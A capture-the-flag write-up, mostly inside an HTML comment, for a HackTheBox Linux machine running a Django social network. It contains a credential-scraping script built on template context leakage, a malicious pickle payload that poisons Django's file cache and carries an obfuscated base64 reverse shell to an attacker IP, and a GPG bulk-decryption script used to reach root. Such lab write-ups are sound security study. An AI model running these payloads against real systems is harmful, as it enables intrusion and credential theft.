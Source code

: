 # HackNet 

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

## 🏁 Summary of Attack Chain

| Step | User / Access                   | Technique Used                                         | Result |
| :--- | :------------------------------ | :----------------------------------------------------- | :----- |
| 1    | `N/A`                           | **Nmap / Recon**                                       | Discovered open ports: `22` (SSH) and `80` (HTTP — nginx). App identified as a Django-based social network (HackNet). |
| 2    | `N/A`                           | **App fingerprinting (Django)**                        | Confirmed Django templating behavior (DTL) and endpoints for user actions: register, like, likes listing, profile edits. |
| 3    | `attacker (web)`                | **Template-context leakage (rendered `users`)**        | Controlled a username to inject `{{ users }}` and `{{ users.values }}` into a post/like rendering, leaking internal QuerySet / field dicts in the likes list. |
| 4    | `attacker (web)`                | **Automated scraping of leaked fields**                | Scripted likes + scrape of `<img title="...">` content to extract `'email'` and `'password'` fields from `users.values`. Collected many site credentials. |
| 5    | `attacker`                      | **Credentials enumeration / access**                   | Identified valid credentials (some site usernames mapped to mailbox prefixes). Used these to access site functionality and locate file paths / user-owned files (`user.txt`). |
| 6    | `attacker (www-data?)`          | **Cache poisoning — Django FileBasedCache + Pickle**   | Found `@cache_page(60)` in `explore` view. Generated a malicious pickle payload, wrote it into `.djcache` files, then triggered deserialization to achieve RCE (reverse shell). |
| 7    | `sandy` (local user discovered) | **Post-exploitation enumeration — discover user files & keys** | After RCE, enumerated web and home directories. Found `sandy` user and discovered `armored_key.asc` (GPG private key) and encrypted backup `.gpg` files in `/var/www/HackNet/backups`. |
| 8    | `attacker (with imported key)`  | **GPG private key import & bulk decrypt**              | Imported the `armored_key.asc` and used the passphrase hint to decrypt backup `.gpg` files. Extracted SQL/backup contents and plaintext credentials (database passwords, root credentials). |
| 9    | `root`                          | **Credential reuse / SSH login → root**                | Located credentials in decrypted backups (or found SSH root key) and authenticated as `root`. Retrieved `root.txt`. |


## Nmap

```
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN]
❯ nmap hacknet.htb -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: HackNet - social network for hackers
```

> Check the technology stack using Django



## Django — Application Overview

* Register a user and you can perform operations:

  * Modify personal information (change name, signature, upload avatar)
  * Leave a message to others/yourself
  * Like others

* Note: In this environment we will not consider file uploads.

### Django Template Engine (DTL) notes

* Django default template (DTL) does **not** execute Python expressions.
* Expressions like `{{7*7}}`, `{{os.environ}}`, `{{().__class__}}` will not execute.
* DTL only renders variables present in the template context (e.g., `{{ user }}`, `{{ request }}`, `{{ settings.DEBUG }}`).
* True SSTI requires a template engine that executes expressions (for example Jinja2).

> In pure DTL mode, you can only leak context variables — not run system commands — unless the app uses a different template engine.



## Observed SSTI-like leakage via user-controlled fields

* Some user homepages show blocked information. Changing the username to `{{ users }}` renders the `users` variable in a likes list.

![Code](Pictures/htb_hacknet_user.png)

Example in source:

```
<QuerySet [
    <SocialUser: cyberghost>,
    <SocialUser: shadowcaster>,
    <SocialUser: glitch>,
    <SocialUser: netninja>,
    <SocialUser: exploit_wizard>,
    <SocialUser: whitehat>,
    <SocialUser: deepdive>,
    <SocialUser: virus_viper>,
    <SocialUser: brute_force>,
    <SocialUser: {{ users }}>
]>
```

* Use `{{ users.values }}` to render a list of field dictionaries for users in the likes list.

![users](Pictures/htb_hacknet_user_values_ssti.png)

* The rendered users list is only for the current post's likes — you need to like posts and then check the likes list.



## Automated credential harvesting script

* The following Python script automates liking posts and scraping the likes pages for leaked `email` and `password` fields inside rendered HTML (often inside `img` title attributes).

```python
import re
import requests
import html

url = "http://hacknet.htb"
headers = {
    'Cookie': "csrftoken=uXXXXXXXXXXXXXXXXXXXXXXXXXXXf; sessionid=XXXXXXXXXXXXXXXXXXXXXXXXXXX"
}

all_users = set()

for i in range(1, 31):

    requests.get(f"{url}/like/{i}", headers=headers)

    text = requests.get(f"{url}/likes/{i}", headers=headers).text


    img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
    if not img_titles:
        continue
    last_title = html.unescape(img_titles[-1])


    if "<QuerySet" not in last_title:
        requests.get(f"{url}/like/{i}", headers=headers)
        text = requests.get(f"{url}/likes/{i}", headers=headers).text
        img_titles = re.findall(r'<img [^>]*title="([^"]*)"', text)
        if img_titles:
            last_title = html.unescape(img_titles[-1])

    
    emails = re.findall(r"'email': '([^']*)'", last_title)
    passwords = re.findall(r"'password': '([^']*)'", last_title)

   
    for email, p in zip(emails, passwords):
        username = email.split('@')[0]  
        all_users.add(f"{username}:{p}")


for item in all_users:
    print(item)
```

* Example output (usernames:passwords) after running the script:

```
chma:chma123
zero_day:Zer0D@yH@ck
glitch:Gl1tchH@ckz
shadowmancer:Sh@d0wM@ncer
virus_viper:V!rusV!p3r2024
stealth_hawk:St3@lthH@wk
cryptoraven:CrYptoR@ven42
rootbreaker:R00tBr3@ker#
asd:asd
netninja:N3tN1nj@2024
shadowwalker:Sh@dowW@lk2024
phreaker:Phre@k3rH@ck
datadive:D@taD1v3r
codebreaker:C0d3Br3@k!
test:test
z0n:z0n
shadowcaster:Sh@d0wC@st!
mikey:<Find me>
exploit_wizard:Expl01tW!zard
whitehat:Wh!t3H@t2024
trojanhorse:Tr0j@nH0rse!
packetpirate:P@ck3tP!rat3
brute_force:BrUt3F0rc3#
hexhunter:H3xHunt3r!
bytebandit:Byt3B@nd!t123
blackhat_wolf:Bl@ckW0lfH@ck
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
deepdive:D33pD!v3r
```

![Leak](Pictures/htb_hacknet_user_values.png)

* Note: Some usernames may not map directly to system users (e.g., SSH logins), but email prefixes are valid site usernames.

![Password](Pictures/htb_hacknet_mikey_ssh_pass.png)

![SSH_Login](Pictures/htb_hacknet_user_flag.png)


## FileBasedCache — Cache exploitation (Django)

* In the app source we find the `explore` view (decorated with `@cache_page(60)`), which stores rendered results in Django's cache directory.

![www](Pictures/htb_hacknet_www.png)
![Cache](Pictures/htb_hacknet_django.png)


```python
@cache_page(60)
def explore(request):
    if not "email" in request.session.keys():
        return redirect("index")

    session_user = get_object_or_404(SocialUser, email=request.session['email'])

    page_size = 10
    keyword = ""

    if "keyword" in request.GET.keys():
        keyword = request.GET['keyword']
        posts = SocialArticle.objects.filter(text__contains=keyword).order_by("-date")
    else:
        posts = SocialArticle.objects.all().order_by("-date")

    pages = ceil(len(posts) / page_size)

    if "page" in request.GET.keys() and int(request.GET['page']) > 0:
        post_start = int(request.GET['page'])*page_size-page_size
        post_end = post_start + page_size
        posts_slice = posts[post_start:post_end]
    else:
        posts_slice = posts[:page_size]

    news = get_news()
    request.session['requests'] = session_user.contact_requests
    request.session['messages'] = session_user.unread_messages

    for post_item in posts:
        if session_user in post_item.likes.all():
            post_item.is_like = True

    posts_filtered = []
    for post in posts_slice:
        if not post.author.is_hidden or post.author == session_user:
            posts_filtered.append(post)
        for like in post.likes.all():
            if like.is_hidden and like != session_user:
                post.likes_number -= 1

    context = {"pages": pages, "posts": posts_filtered, "keyword": keyword, "news": news, "session_user": session_user}

    return render(request, "SocialNetwork/explore.html", context)
```

* `cache_page(60)` means the rendered view is cached for 60 seconds — Django's FileBasedCache (or other backends) writes serialized return values to files.

* **Security risk:** if the cache directory is writable by an attacker and Django reads pickled content directly, an attacker can place a malicious pickle file that will be deserialized and executed, leading to RCE.


## Exploitation plan — cache poisoning via pickle

* Steps:

  1. Visit `/explore` as an authenticated user to generate a cache file.
  2. Construct a malicious pickle payload that executes a command on deserialization.
  3. Write the payload into the cache file(s) (e.g., `/var/tmp/django_cache/*.djcache`).
  4. Re-access `/explore` to trigger deserialization and execute the payload.

### Pickle payload generator (Python)

```python
import pickle
import base64
import os
import time



cache_dir = "/var/tmp/django_cache"
cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxKSAm|base64 -d|bash"



class RCE:
    def __reduce__(self):
        return (os.system, (cmd,),)

payload = pickle.dumps(RCE())



for filename in os.listdir(cache_dir):
    if filename.endswith(".djcache"):
        path = os.path.join(cache_dir, filename)
        try:
            os.remove(path)  
        except:
            continue
        with open(path, "wb") as f:
            f.write(payload)  
        print(f"[+] Written payload to {filename}")
```

![Code_Execution](Pictures/htb_hacknet_RCE.png)

* The `cmd` above decodes a base64 payload that runs a reverse shell to the attacker (update IP/PORT as needed).
* After writing the malicious `.djcache` files, requesting `/explore` will load the cached content and deserialize the malicious pickle, executing the command.

![djcache](Pictures/htb_hacknet_exploit.png)

## Privilege escalation / Gaining root

* After successful exploitation you obtain the `sandy` user shell (user found in website files).

![Sandy_Shell](Pictures/htb_hacknet_sandy.png)

* Inside `sandy`'s directory you find GPG private key(s) and backup files.

![Key](Pictures/htb_hacknet_keys.png)

### GPG private key: `armored_key.asc`

![Key](Pictures/htb_hacknet_file_transfer.png)
![key](Pictures/htb_hacknet_file_receievd.png)
![Pass](Pictures/htb_hacknet_sandy_pass.png)

* The key is armored and may be password-protected. The noted passphrase in findings: `Place Me here` (observed in `mikey` entry above).

* Example flow: import private key, decrypt backup `.gpg` files, inspect database backups to recover credentials and/or secrets.



## Batch decryption script (bash)

```bash
#!/bin/bash



KEY_PATH="$HOME/.gnupg/private-keys-v1.d/armored_key.asc"
BACKUP_DIR="/var/www/HackNet/backups"
OUTPUT_DIR="/tmp"
PASSPHRASE="Place Me here" 

# 导入私钥
gpg --import "$KEY_PATH"

# 批量解密
for file in "$BACKUP_DIR"/*.gpg; do
    filename=$(basename "$file" .gpg)
    outpath="$OUTPUT_DIR/$filename.sql"
    echo "[*] Decrypting $file → $outpath"
    if [ -n "$PASSPHRASE" ]; then
        gpg --batch --yes --passphrase "$PASSPHRASE" --pinentry-mode loopback -o "$outpath" -d "$file"
    else
        gpg --batch --yes -o "$outpath" -d "$file"
    fi
done

echo "[*] Done. Decrypted files are in $OUTPUT_DIR"
```

![Backup](Pictures/htb_hacknet_exp.png)

* After decryption, pipe or grep the SQL files to find credentials (e.g., `cat backup0* | grep password`).

![Root_pass](Pictures/htb_hacknet_pass_sa_backup.png)

![Root_Flag](Pictures/htb_hacknet_Root_flag.png)

## Final notes / Observations

* The combination of template leakage (rendered `users` context) and writable cache allowed information disclosure and a path to RCE via pickle-based cache poisoning.
* The presence of backups and a private GPG key in a user directory allowed pivoting to root by decrypting backups and extracting credentials.
* Always ensure cache directories are non-writable by untrusted users and avoid deserializing untrusted data. Use safe serializers (JSON) for caching where possible.


**!Pwned Hacknet**

-->